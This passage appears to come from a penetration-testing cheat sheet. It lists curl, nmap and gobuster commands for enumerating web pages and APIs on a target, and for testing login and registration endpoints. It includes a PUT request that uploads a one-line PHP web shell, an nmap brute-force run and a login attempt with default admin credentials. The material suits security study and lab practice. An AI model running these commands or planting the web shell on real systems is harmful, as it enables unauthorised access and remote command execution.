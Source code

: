 - Check for title and all links

      curl -s -L http://$TARGET_IP | grep "title\|href" | sed -e 's/^[[:space:]]*//'

- Look at page with just text

      curl -s -L http://$TARGET_IP | html2text -width '99' | uniq

- Check if it is possible to upload using put
    
      curl -v -X OPTIONS http:///$TARGET_IP
      curl -v -X PUT -d '<?php system($_GET["cmd"]); ?>' http://$TARGET_IP/test/shell.php

### Nmap brute force

    sudo nmap -p 80 --script="brute and http*" $TARGET_IP -oN "$WORKING_DIRECTORY""$TARGET_IP"_nmap_80_brute
		
--------------------------------------------------------------------------
## APIs

### Enumerate
1. Examine url with curl

        curl -i http://$TARGET_IP/users/v1

2. Expand inpsection by inserting found properties like usernames into the path and running additional scans:

        gobuster dir -u http://$TARGET_IP/users/v1/admin -w $DIRECTORY_LIST

3. Probe additional findings with curl

        curl -i http://$TARGET_IP/users/v1/admin/password

    A 405 response indicates the URL is valid but requires a different HTTP request type (POST, PUT) (Default is GET)

### Check for login
1. If access to user credentials as above then check for login function

        curl -i http://$TARGET_IP/users/v1/login

2. Look for a status message in the response that indicates the function is active.
3. Craft a request with valid user to further test login.

        curl -d '{"password":"admin","username":"admin"}' -H 'Content-Type: application/json'  http://TARGET_IP/users/v1/login

4. Look for status message in response indicating further requirements.

### Check for user registration
1. Check for register function.

        curl -d '{"password":"password","username":"test123"}' -H 'Content-Type: application/json'  http://$TARGET_IP/users/v1/register
